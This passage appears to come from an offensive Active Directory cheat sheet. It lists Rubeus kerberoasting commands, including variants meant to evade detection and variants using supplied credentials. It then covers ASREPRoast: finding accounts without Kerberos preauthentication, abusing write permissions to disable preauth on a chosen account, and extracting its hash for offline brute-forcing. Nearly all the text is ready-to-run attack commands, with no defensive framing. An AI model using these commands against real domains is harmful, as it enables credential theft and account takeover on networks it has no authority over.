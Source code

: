 Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts

```
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
```

Kerberoast AES enabled accounts

```
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
```

Kerberoast spesific user account

```
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
```

#### Kerberoast by specifying the authentication credentials

```
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
```

### ASREPRoast

_What is this?:_  If a domain user account does not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted\
blob and brute force it offline.

* PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
* AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more!

Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

Finally, execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.

Get a specific Accounts hash:

```
Get-ASREPHash -UserName <UserName> -Verbose
```
